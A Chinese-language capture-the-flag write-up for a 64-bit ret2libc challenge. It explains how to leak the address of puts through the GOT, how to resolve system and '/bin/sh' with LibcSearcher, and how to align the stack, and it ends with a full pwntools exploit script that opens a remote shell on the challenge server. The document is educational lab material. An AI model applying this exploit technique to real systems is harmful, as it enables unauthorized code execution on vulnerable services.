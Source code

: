 # 挑战简介
64位 无 system 无 "/bin/sh"

# 思路
64位的retlibc，唯一要注意的可能是栈对齐  

必须再解释一遍ret2libc的意思
```
ret2libc是一种常见的栈溢出利用技术。当程序存在栈溢出漏洞，但没有开启NX（No-eXecute，禁止执行栈上数据）保护时，可以直接写入shellcode到栈上并执行。
但如果NX开启了，我们就不能直接执行栈上的代码。ret2libc的思想是：虽然不能直接执行我们写入的代码，但程序加载的共享库（如libc.so）中包含了大量现成的函数
（如system, execve等）。我们可以通过覆盖返回地址，让程序跳转到libc库中的system函数，并设法将参数（如"/bin/sh"字符串的地址）传递给它，从而间接执行我们想要的命令。
```

## 计算偏移量和寻找Gadgets/地址:
```

offset = 0x70 + 0x8

rdi_addr = 0x400803

ret_addr = 0x4004fe

vuln = elf.symbols['ctfshow']

puts_plt = elf.plt['puts']

puts_got = elf.got['puts']
```

offset = 0x70 + 0x8: 这是栈溢出的偏移量。通常通过调试（如GDB）或模式字符串（如cyclic）找到。0x70可能是局部缓冲区的大小，+ 0x8通常是覆盖保存的RBP（64位下占8字节），
之后紧接着就是返回地址。

rdi_addr = 0x400803: 这是ROP Gadget pop rdi; ret 的地址。在64位Linux下，函数的第一个参数通过RDI寄存器传递。这个gadget的作用是：
从栈顶弹出一个值放入RDI寄存器，然后执行ret（再从栈顶弹出一个地址并跳转）。我们用它来设置即将调用的函数的参数。
这个地址通常用ROPgadget或ropper等工具在目标程序或其加载的库中寻找。

ret_addr = 0x4004fe: 这是一个简单的 ret 指令的地址。有时用于栈对齐（特别是调用system等libc函数前，要求栈地址按16字节对齐），
或者仅仅是为了在ROP链中进行一次简单的跳转。

vuln = elf.symbols['ctfshow']: 获取程序中名为ctfshow的函数的地址。这很可能是存在栈溢出漏洞的函数。我们在第一次溢出后需要返回到这里，以便进行第二次溢出。

puts_plt = elf.plt['puts']: 获取puts函数在PLT（Procedure Linkage Table，过程链接表）中的地址。调用puts@plt会（在第一次调用时）
触发动态链接器去解析puts的真实地址并填入GOT表，然后跳转到真实的puts函数。

puts_got = elf.got['puts']: 获取puts函数在GOT（Global Offset Table，全局偏移表）中的地址。GOT表存储的是外部函数在内存中的实际地址。
在程序第一次调用某个外部函数前，GOT表里可能存的是PLT中用于解析的代码地址；解析后，这里会填上该函数在libc中的真实地址。我们的目标就是读取这个GOT表项，
泄露出puts在内存中的真实地址。

---

## 第一次Payload - 泄露puts的真实地址:
```
payload = b'a'*offset + p64(rdi_addr) + p64(puts_got) + p64(puts_plt) + p64(vuln)
p.sendline(payload)

puts_real = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
# 64位的libc共享库字节常是"\x7f"  ,32位的是"\xf7"
#然后将这个8字节的序列转换为一个64位无符号整数。
```
b'a'*offset: 填充物，覆盖缓冲区和保存的RBP，到达返回地址的位置。

p64(rdi_addr): 覆盖返回地址为 pop rdi; ret gadget。

p64(puts_got): 这是 pop rdi 指令要弹出的值。执行 pop rdi 后，RDI 寄存器的值将是 puts 函数在GOT表中的地址 (puts_got)。

p64(puts_plt): 这是 pop rdi; ret 中的 ret 指令要跳转到的地址。此时RDI指向puts_got，所以这相当于调用 puts(puts_got)。puts函数会打印出puts_got地址处存储的内容，
也就是puts函数在libc中的真实地址。

p64(vuln): 这是 puts 函数执行完后要返回的地址。我们让它返回到存在漏洞的函数 (ctfshow) 的开头，这样程序流会再次执行到read或gets等输入函数，等待我们发送第二次payload。

p.recvuntil(b'\x7f'): 持续接收数据，直到遇到字节\x7f。在64位Linux系统中，libc库加载的地址通常以0x7f开头（虽然不是绝对的，但很常见），所以用它作为接收地址的标志。

[-6:]: 取接收到的数据的最后6个字节。因为地址通常是0x7fxxxxxxxxxx，我们只需要后面的字节。puts打印地址时可能不会打印前面的0x00字节，所以只取有效的低位字节。

.ljust(8, b'\x00'): 将得到的6字节数据向左对齐，并在右边填充空字节 (\x00)，使其总长度达到8字节（64位地址长度）。

u64(...): 将这8字节的数据解包成一个64位无符号整数，这就是泄露出的puts函数在内存中的真实地址。

## 利用LibcSearcher计算所需地址:
```
libc = LibcSearcher('puts',puts_real)

libc_base = puts_real - libc.dump('puts')

bin_sh = libc_base + libc.dump('str_bin_sh')

sys_addr = libc_base + libc.dump('system')
```

libc = LibcSearcher('puts', puts_real): 创建一个LibcSearcher对象。我们告诉它，我们泄露了名为'puts'的函数，其真实地址是puts_real。
LibcSearcher会查询它的数据库，找到哪个（或哪些）已知的libc版本中，puts函数的偏移量与我们计算出的puts_real地址的低位匹配。

libc_base = puts_real - libc.dump('puts'): 计算libc库在内存中的基地址。原理是：函数真实地址 = libc基地址 + 函数在libc文件中的偏移量。
所以 libc基地址 = 函数真实地址 - 函数偏移量。libc.dump('puts')就是从LibcSearcher找到的匹配libc版本中获取puts函数的偏移量。

bin_sh = libc_base + libc.dump('str_bin_sh'): 计算libc中字符串"/bin/sh"的实际内存地址。libc.dump('str_bin_sh')获取该字符串在libc文件中的偏移量。

sys_addr = libc_base + libc.dump('system'): 计算libc中system函数的实际内存地址。libc.dump('system')获取system函数在libc文件中的偏移量。

## 第二次Payload - 执行system("/bin/sh"):
```
payload = b'a'*offset + p64(ret_addr) + p64(rdi_addr) + p64(bin_sh) + p64(sys_addr)
```
p64(ret_addr): 第一个覆盖的返回地址是 ret gadget。这主要是为了栈对齐，因为调用system通常需要栈是16字节对齐的。
执行这个ret会消耗掉栈上的这个地址，然后继续执行栈上的下一个地址（rdi_addr）。

p64(rdi_addr): 接下来是 pop rdi; ret gadget。

p64(bin_sh): 这是 pop rdi 要弹出的值，即我们计算出的 "/bin/sh" 字符串的内存地址。执行 pop rdi 后，RDI = bin_sh。

p64(sys_addr): 这是 pop rdi; ret 中的 ret 要跳转到的地址，即我们计算出的 system 函数的内存地址。此时RDI是"/bin/sh"的地址，所以这相当于调用 system("/bin/sh")。

---
最终EXP
```
#!/usr/bin/python3

from pwn import *
from LibcSearcher import *
context.log_level = "debug"

p= remote("pwn.challenge.ctf.show",28223)
elf = ELF('./pwn')

offset = 0x70 + 0x8

rdi_addr = 0x400803

ret_addr = 0x4004fe

vuln = elf.symbols['ctfshow']

puts_plt = elf.plt['puts']

puts_got = elf.got['puts']

payload = b'a'*offset + p64(rdi_addr) + p64(puts_got) + p64(puts_plt) + p64(vuln)
p.sendline(payload)

puts_real = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
# 64位的libc共享库字节常是"\x7f"  ,32位的是"\xf7"
#然后将这个8字节的序列转换为一个64位无符号整数。

libc = LibcSearcher('puts',puts_real)

libc_base = puts_real - libc.dump('puts')

bin_sh = libc_base + libc.dump('str_bin_sh')

sys_addr = libc_base + libc.dump('system')

payload = b'a'*offset + p64(ret_addr) + p64(rdi_addr) + p64(bin_sh) + p64(sys_addr)

print(payload)

p.sendline(payload)

p.interactive()

```
